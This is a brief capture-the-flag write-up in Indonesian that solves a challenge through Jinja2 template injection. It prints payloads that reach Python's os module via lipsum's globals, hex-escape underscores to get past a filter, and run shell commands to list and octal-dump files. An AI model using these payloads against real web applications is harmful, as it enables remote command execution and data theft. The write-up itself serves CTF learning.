 # Writeup Vacation Gallery
Recon:
```
{%print(self._TemplateReference__context)%}
```
Terdapat fungsi lipsum yang bisa digunakan \_\_globals\_\_nya untuk mengakses modul `os`.

```
{%print(lipsum|attr("_\x5fglobals__")).os.popen("ls").read()%}
```
Terdapat file yang namanya terlalu panjang, sehingga harus menggunakan wildcard. Kita bisa menggunakan command `od` untuk melakukan octal dump.

```
{%print(lipsum|attr("_\x5fglobals__")).os.popen("od\x20*").read()%}
```
Setelah itu, kita mendapatkan octal dump dari semua file di cwd (out.txt). Kita dapat mengambil semuanya kecuali byte oktal terakhir (karena itu merupakan panjang dari octal dumpnya), dan mengonversikannya ke bytes, sebagaimana pada solver.py.
